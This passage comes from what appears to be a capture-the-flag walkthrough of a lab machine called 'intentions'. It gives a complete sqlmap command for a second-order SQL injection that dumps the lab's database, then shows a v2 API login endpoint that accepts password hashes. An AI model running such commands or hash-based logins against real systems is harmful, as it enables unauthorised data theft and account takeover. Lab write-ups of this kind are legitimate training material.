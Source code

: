 ```bash
sqlmap -u "http://10.129.229.27/api/v1/gallery/user/genres" --headers "Content-Type: application/json" --data '{"genres":"*"}' --second-url="http://10.129.229.27/api/v1/gallery/user/feed" --dump --technique=U -D intentions --columns 5 --prefix="food')" --suffix="#" --tamper=space2comment.py --level 5 --risk 3 --batch
```

During the initial enumeration phase we discovered an admin.js file that mentioned something about a v2 API that handled hashes instead of passwords. I wonder what’s the point of that…

Logging out and in sends a request to /api/v1/auth/login.

<img src="/assets/img/intentions/Untitled 15.png" alt="Untitled 15.png" style="width:800px;">

Dropping that request and sending a new one to /api/v2/auth/login with an empty body returns an error message indicating that the email and hash fields are mandatory.

<img src="/assets/img/intentions/Untitled 16.png" alt="Untitled 16.png" style="width:800px;">
